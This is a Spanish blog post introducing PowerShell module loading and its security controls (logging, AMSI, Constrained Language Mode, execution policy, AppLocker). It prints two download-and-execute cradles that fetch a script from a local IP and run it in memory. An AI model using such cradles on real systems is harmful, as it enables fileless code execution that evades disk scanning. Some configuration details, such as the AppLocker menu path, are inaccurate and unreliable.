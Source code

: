 ```yaml
---
layout: single
title: Powershell 101
date: 2025-02-28
classes: wide
header:
  teaser: /assets/images/powershell101/1530645393770.png
categories:
  - Security
tags:
  - Research
---
```


# PowerShell 101

PowerShell es más que una línea de comandos. Es una herramienta escrita con el framewordk .NET  esencial para administradores de sistemas, analistas de seguridad y desarrolladores. En este blog vamos a explorar su estructura y su seguridad, desde la gestión de módulos hasta sus políticas de ejecución y mecanismos de defensa.

# Importar Módulos y Scripting

Uno de los aspectos más importantes y de mayor uso en PowerShell es la capacidad para extenderse mediante módulos. Los módulos contienen funciones que facilitan la automatización de tareas. Podemos importar módulos en nuestra sesión usando diferentes maneras:

1. Usando Dot Sourcing:

Dot Sourcing permite cargar y ejecutar un script de PowerShell en la sesión actual, por lo que todas las funciones y variables dentro del script estarán disponibles para un uso futuro. 

```powershell
. .\ScriptPowerShell.ps1
```

1. Usando Import-Module:
    
    Import-Module se usa para cargar no solo scripts, sino funciones, clases y cmdlets. Esto permite que los comandos dentro del modulo estén disponibles en la sesión.
    
    ```powershell
    Import-Module ScriptPowershell.ps1
    ```
    

## Cargar módulos de forma remota

Una funcionalidad importante de PowerShell es la carga de módulos remotos. Esta técnica permite la descarga de scripts directamente en memoria y ejecutarlo sin necesidad de almacenarlo en disco.

1. Usando Net.WebClient

Este método usa la clase .NET Net.WebClient para descargar un script de Powershell y ejecutarlo en memoria inmediatamente. 

```powershell
iex (New-Object Net.WebClient).DownloadString('https://192.168.1.12:8080/resource.ps1')
```

Vamos a explicar el comando:

- IEX: Hace referencia a Invoke-Expression. Esto ejecuta el string como código de PowerShell.
- New-Object WebClient: Crea una instancia de la clase WebClient y llama al método DownloadString para descargar el contenido de la URL.
- En resumen, carga en memoria el contenido de la URL y ejecuta el script descargado.

1. Usando IWR

Este método usa el cmdlet IWR para descargar y ejecutar el script. 

```powershell
iex (iwr http://192.168.1.12:8080/resource.ps1)
```

Es similar al anterior, solo que esta vez se usa IWR, que hace referencia a Invoke Web Request, un cmdlet de powershell usado para enviar solicitudes HTTP/HTTPS.

# Seguridad en PowerShell

Desde 2016, Microsoft ha fortalecido PowerShell con características avanzadas de seguridad y registro para mejorar la visibilidad de su uso y detectar actividades sospechosas.

## Registro Global de Transcripciones

PowerShell puede registrar toda la actividad de la sesión, incluso si se intenta evadir la ejecución mediante código sin gestionar.

- **Objetivo:** Registrar cada comando y su salida en archivos de texto, brindando mayor visibilidad y dificultando la evasión por parte de atacantes.
- **Ejemplo de activación:**
    
    ```
    Start-Transcript -Path "C:\Logs\session.log"
    ```
    

## Script Block Logging

Desde PowerShell 5, se introdujo el registro de bloques de script, lo que permite almacenar información detallada sobre el código ejecutado.

- **Eventos generados:** 4103 y 4104 en el Visor de Eventos.
- **Propósito:** Capturar el contenido de scripts ejecutados, incluyendo código ofuscado.
- **Habilitar Script Block Logging:**
    
    ```
    Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1
    ```
    

## AMSI (Antimalware Scan Interface)

AMSI analiza el código de PowerShell antes de su ejecución, enviándolo a soluciones de seguridad como Windows Defender.

- **Funcionamiento:**
    - Examina los scripts y compara su contenido con firmas de malware.
    - Si detecta amenazas, bloquea la ejecución antes de que se ejecute el código.
- **Verificando si AMSI está activo:**
    
    ```
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
    ```
    

## Constrained Language Mode (CLM)

PowerShell soporta diferentes modos de ejecución que restringen las operaciones permitidas:

- **No Language:** Solo comandos esenciales permitidos (usado en JEA - Just Enough Administration).
- **Constrained Language:** Limita la ejecución a módulos firmados y confiables.
- **Restricted Language:** Solo permite comandos básicos administrativos.
- **Full Language:** Habilita todas las funciones sin restricciones (modo predeterminado).

CLM se puede reforzar mediante **AppLocker** o **WDAC (Windows Defender Application Control)** para bloquear scripts no firmados.

## Execution Policy: Control de Ejecución de Scripts

PowerShell utiliza políticas de ejecución para restringir la ejecución de scripts maliciosos, aunque **no es un mecanismo de seguridad en sí mismo**, sino una medida para evitar ejecuciones accidentales.

### Políticas más comunes:

- **Restricted:** No permite ejecución de scripts.
- **RemoteSigned:** Requiere firma digital para scripts descargados.
- **Unrestricted:** Permite todos los scripts, pero muestra advertencias sobre scripts de internet.

**Cambiar la política de ejecución:**

```
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
```

# AppLocker: Reforzando la Seguridad de PowerShell

AppLocker permite definir reglas que restringen la ejecución de scripts y aplicaciones en entornos empresariales.

## Configuración de reglas para PowerShell

1. Abrir **gpedit.msc**
2. Navegar a **Configuración del equipo -> Directivas de seguridad -> Políticas de restricción de software -> AppLocker**
3. Configurar reglas para bloquear o permitir scripts (`.ps1`).

Ejemplo de regla en PowerShell para permitir solo scripts firmados:

```
Set-AppLockerPolicy -XmlPolicy (Get-Content "C:\Policy.xml" -Raw)
```

Esto refuerza la seguridad en entornos donde la ejecución de scripts debe estar estrictamente controlada.

# Bibliografía

[https://medium.com/@dineshkumaar478/the-road-to-crtp-cert-part-3-c0a591848b90](https://medium.com/@dineshkumaar478/the-road-to-crtp-cert-part-3-c0a591848b90)

[https://learn.microsoft.com/es-es/windows/win32/amsi/how-amsi-helps](https://learn.microsoft.com/es-es/windows/win32/amsi/how-amsi-helps)

[https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)

[https://viperone.gitbook.io/pentest-everything/everything/powershell/constrained-language-mode](https://viperone.gitbook.io/pentest-everything/everything/powershell/constrained-language-mode)

[https://learn.microsoft.com/es-es/windows/security/application-security/application-control/app-control-for-business/applocker/applocker-overview](https://learn.microsoft.com/es-es/windows/security/application-security/application-control/app-control-for-business/applocker/applocker-overview)